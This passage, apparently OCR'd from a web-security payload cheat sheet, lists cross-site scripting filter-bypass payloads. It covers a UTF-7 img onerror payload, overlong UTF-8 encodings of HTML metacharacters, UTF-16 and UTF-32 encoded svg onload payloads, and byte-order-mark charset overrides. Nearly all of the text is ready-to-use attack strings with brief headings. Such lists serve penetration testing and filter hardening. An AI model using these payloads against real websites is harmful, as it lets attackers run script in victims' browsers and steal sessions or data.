 ### Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

### Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using BOM

Byte Order Mark (The page must begin with the BOM character.) BOM character
allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using weird encoding or native interpretation
